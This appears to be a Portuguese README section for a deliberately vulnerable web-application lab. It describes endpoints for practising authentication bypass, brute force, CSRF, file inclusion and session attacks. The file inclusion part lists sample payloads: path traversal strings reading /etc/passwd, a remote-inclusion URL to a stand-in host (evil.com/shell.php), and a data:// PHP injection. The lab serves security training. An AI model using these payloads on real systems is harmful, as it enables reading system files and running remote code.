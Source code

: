 ### **5. Authentication Bypass** 🔓
**Endpoints**: 
- `/api/auth/login`
- `/api/auth/admin`

**Técnicas**:
- SQL injection no login
- Manipulação de sessão
- Bypass de autorização
- Escalação de privilégios

### **6. Brute Force** 💥
**Endpoint**: `/api/auth/bruteforce`

**Características**:
- Tentativas ilimitadas (easy mode)
- Rate limiting básico (medium mode)  
- CAPTCHA e lockout (hard mode)
- Análise de timing

### **7. CSRF (Cross-Site Request Forgery)** 🎭
**Endpoints**:
- `/api/csrf/transfer` (Transferência de fundos)
- `/api/csrf/profile` (Alteração de perfil)

**Técnicas**:
- Bypass de token CSRF
- SameSite cookie exploitation
- Ataques baseados em referrer

### **8. File Inclusion** 📄
**Endpoints**:
- `/api/file/lfi` (Local File Inclusion)
- `/api/file/rfi` (Remote File Inclusion)

**Payloads**:
```bash
# LFI
../../../etc/passwd
....//....//....//etc/passwd

# RFI  
http://evil.com/shell.php
data://text/plain,<?php phpinfo();?>
```

### **9. Session Management** 🔐
**Endpoints**:
- `/api/session/create`
- `/api/session/validate`

**Vulnerabilidades**:
- Session ID predicável
- Session fixation
- Falta de rotação de sessão
- Cookies inseguros
